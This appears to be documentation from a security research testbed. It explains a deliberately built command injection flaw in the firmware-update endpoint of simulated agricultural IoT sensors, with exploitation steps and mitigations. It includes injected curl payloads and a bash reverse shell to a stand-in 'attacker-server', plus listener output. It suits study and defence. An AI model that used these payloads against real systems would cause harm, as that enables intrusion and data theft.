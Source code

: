 # Command Injection Vulnerability Details

This document provides detailed technical information about the Command Injection vulnerability implemented in the VAST framework. This vulnerability demonstrates a critical security flaw in the firmware update mechanism of agricultural IoT sensors.

## Vulnerability Overview

The vulnerability exists in the API endpoint responsible for firmware updates and is classified as *Command Injection* (CWE-77). It allows an attacker with valid administrative credentials to execute arbitrary commands on the sensor's operating system by injecting shell commands through the firmware update parameters.

## Technical Implementation

The vulnerability stems from two critical implementation errors in the code:

1. The firmware parameters are concatenated directly into the shell command without proper sanitization
2. The use of `shell=True` in the `subprocess.run()` function allows the execution of shell metacharacters

This implementation vulnerability corresponds to OWASP's classification of *Injection* attacks, which remain a persistent threat in IoT environments.

## Exploitation Methodology

The exploitation follows a systematic methodology:

1. **Authentication**: Obtain valid administrative credentials (in our testbed, these were hardcoded as admin:admin)
2. **Initial Exploitation**: Verify command injection by executing a simple command that creates a file
3. **Tool Installation**: Leverage the vulnerability to install networking utilities not typically present in IoT devices
4. **Remote Access**: Establish a reverse shell connection to gain interactive control of the sensor
5. **Impact Assessment**: Evaluate the potential for sensor manipulation, data exfiltration, and persistence

![Exploitation Flow](../images/firmware-flow-chart-with-post-issues.png)

*This diagram illustrates the 4-phase exploitation process and potential post-exploitation activities.*

## Step-by-Step Exploitation Examples

### Initial Verification

The initial verification of the command injection vulnerability is performed by inserting a simple command to create a text file:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
-d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
http://localhost:12381/firmware/update
```

Server response confirming successful command execution:

```json
{
    "command": "/bin/bash /tmp/firmware/dummy.sh ; echo TEST > /tmp/test.txt",
    "message": "Firmware updated successfully",
    "new_version": "1.2.3",
    "path": "/tmp/firmware/dummy.sh",
    "status": "success"
}
```

This response is particularly notable as it reveals the full command that was executed, including the injected portion. The server returning this level of detail represents an additional information disclosure vulnerability that assists attackers in refining their exploitation techniques.

### Installing Network Utilities

After confirming the command injection vulnerability, an attacker can proceed to install networking utilities that would facilitate more sophisticated attacks:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
-d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; apt-get update && apt-get install -y curl > /tmp/install_curl.log 2>&1 && echo \"Curl installed successfully\" || echo \"Failed to install curl\""}' \
http://localhost:12381/firmware/update
```

### Establishing a Reverse Shell

The most significant demonstration of the vulnerability's impact is establishing a reverse shell connection that provides interactive command-line access to the sensor:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
-d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; bash -c \"/bin/bash -i >& /dev/tcp/attacker-server/4444 0>&1\" > /tmp/reverse.log 2>&1 &"}' \
http://localhost:12381/firmware/update
```

On the attacker machine, a netcat listener would capture this connection:

```
Listening on 0.0.0.0 4444
Connection received on 172.18.0.6 51814
```

Through this reverse shell, an attacker gains interactive control of the sensor, enabling comprehensive system exploration, data exfiltration, and persistent access establishment.

## Potential Attack Scenarios

Based on our experimental results, we've identified several high-impact attack scenarios that adversaries could execute:

| Attack Scenario | Technical Implementation | Agricultural Impact |
|-----------------|--------------------------|---------------------|
| Sensor Reading Manipulation | Modification of temperature reading functions to report false values | Incorrect environmental decisions leading to crop damage or yield loss |
| Data Exfiltration | Collection of sensor readings, credentials, and network configurations | Theft of proprietary growing techniques or competitive intelligence |
| Lateral Movement | Use of a compromised sensor as a pivot point to target other network devices | Compromise of the entire agricultural monitoring system |
| Denial of Service | Disabling sensor functionality or flooding the network with traffic | Inability to monitor critical environmental conditions |
| Ransomware Deployment | Encryption of sensor data or control systems | Financial extortion and operational disruption |

## Mitigation Strategies

To protect against command injection vulnerabilities in agricultural IoT sensors:

1. **Input Validation**: Implement strict validation of all user-supplied input
2. **Parameterized Commands**: Use secure APIs that don't rely on string concatenation
3. **Principle of Least Privilege**: Run processes with minimal required permissions
4. **Regular Updates**: Maintain firmware with the latest security patches
5. **Network Segmentation**: Isolate IoT devices from critical infrastructure
6. **Strong Authentication**: Implement proper credential management and MFA where possible